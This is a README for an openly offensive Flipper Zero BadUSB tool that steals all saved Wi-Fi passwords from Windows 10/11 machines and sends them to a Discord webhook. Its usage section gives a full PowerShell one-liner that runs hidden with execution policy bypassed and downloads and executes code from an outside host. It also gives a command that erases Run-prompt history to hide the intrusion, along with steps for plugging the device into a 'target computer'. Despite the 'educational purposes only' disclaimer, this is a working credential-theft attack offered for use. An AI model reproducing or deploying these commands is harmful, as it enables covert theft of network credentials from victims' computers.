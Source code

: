 ## :warning: This script was made for educational purposes only and is not meant to be used maliciously.

This script is a wifi stealer that sends every wifi passwords stored on a Windows 10/11 computer to a [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks).

It is made to be used with a [Flipper Zero](https://flipperzero.one/) device, using the [BadUSB](https://docs.flipperzero.one/bad-usb) feature.

# Files
### Powershell script
- `Wifi-Stealer-Discord.ps1` - The main script, commented for readability
### Duckyscript file
- `Wifi-Stealer-Discord_Quick.txt` - A duckyscript version of the script using a minified/efficient version of the script (for Flipper Zero) pulling from webpage powershell script; it also clears run prompt history.

### Dependencies
* An internet connection
* Windows 10,11

# Usage
Replace `https://discord.com/api/webhooks/<channel_id>/<webhook_id>` with your own [webhook url](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks).
### Powershell
```powershell
powershell -w h -ep bypass $discord='https://discord.com/api/webhooks/<channel_id>/<webhook_id>';irm winwifidiscord.remothe.dev | iex

powershell "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue" | iex
```

### Executing program | Flipper Zero
1. Copy the `Wifi-Stealer-Discord_Quick.txt` file to the Flipper Zero in the `badusb` folder, directly to the microSD card or using the [Flipper Zero app](https://docs.flipperzero.one/mobile-app) *(Android/iOS)* or [qFlipper](https://docs.flipperzero.one/qflipper) *(Windows/Linux/MacOS)*
2. Plug the Flipper Zero to the target computer
3. You must have internet access in order for the .txt file's script in order to connect to the last bit `winwifidiscord.remothe.dev` and allow it to execute.
4. Run the script from the Flipper Zero in the `Bad USB` menu

# Result
![image](https://github.com/user-attachments/assets/b780eb21-5353-4df1-848f-64ebcf47cb9e)

## Credits

- [RemoTheDev](https://remothe.dev) - Modified script and deleted redundancies for subjectively more efficient use and less space.
- [AlexZeGamer](https://gist.github.com/AlexZeGamer) - BadUSB script foundation
